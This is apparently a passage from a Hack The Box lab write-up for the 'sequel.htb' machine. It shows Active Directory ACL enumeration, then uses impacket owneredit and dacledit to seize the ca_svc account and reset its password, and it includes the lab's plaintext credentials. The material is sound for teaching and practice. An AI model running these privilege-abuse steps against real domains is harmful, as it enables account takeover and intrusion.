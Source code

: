```bash
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Just like that we have User!

# Root
cheking for ryan's ACL permissions we find WriteOwner for `Certification Authority`:

```bash
$ Get-ADUser -Filter * | ForEach-Object {echo $_.Name-----;(Get-ACL "AD:\$_").Access | ? {$_.IdentityReference -like "*ryan*"}}
<SNIP>
Certification Authority
-----

ActiveDirectoryRights : WriteOwner
InheritanceType       : All
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : SEQUEL\ryan
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : None
```

> Note that the above command is one of many ways to do this, alternatives include but are not limited to: Bloodhound ,ldapsearch, dacledit.

we can change `ca_svc`'s password to: `w1ldP@ssword2022` by using the following process:

```bash
# Change `ryan` to become an owner of `ca_svc`
$impacket-owneredit -action write -new-owner 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!
# edit DACL to give `ryan` full access control over `ca_svc
$impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'
[*] DACL backed up to dacledit-20250112-234353.bak
[*] DACL modified successfully!
# change password
$net rpc password "ca_svc" "w1ldP@ssword2022" -U "sequel.htb"/"ryan"%"WqSZAF6CysDQbGb3" -S "sequel.htb"
```
